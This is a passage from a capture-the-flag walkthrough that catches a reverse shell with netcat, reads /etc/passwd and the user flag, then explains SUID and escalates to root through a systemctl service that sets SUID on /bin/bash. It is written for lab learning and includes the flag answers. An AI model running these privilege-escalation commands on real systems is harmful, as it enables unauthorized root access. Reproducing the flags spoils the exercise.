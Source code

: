 ![](https://i.imgur.com/FGcvTCp.png)

```
nc -lvnp 9001

```

5. What is the name of the user who manages the webserver?

```
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
cat /etc/passwd
```

`bill`

6. What is the user flag?

```
cat /home/bill/user.txt
```

`8bd7992fbe8a6ad22a63361004cfcedb`

## Privilege Escalation

Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

1. In Linux, SUID **(set owner userId upon execution)** is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

![](https://i.imgur.com/ZhaNR2p.jpg)

On the system, search for all SUID files. What file stands out?

```
find / -perm -4000 2> /dev/null

/bin/systemctl
```

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

`https://gtfobins.github.io/`

`https://gtfobins.github.io/gtfobins/systemctl/`

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

`bash -p`

`a58ff8579f0a9270368d33a9966c7fd5`
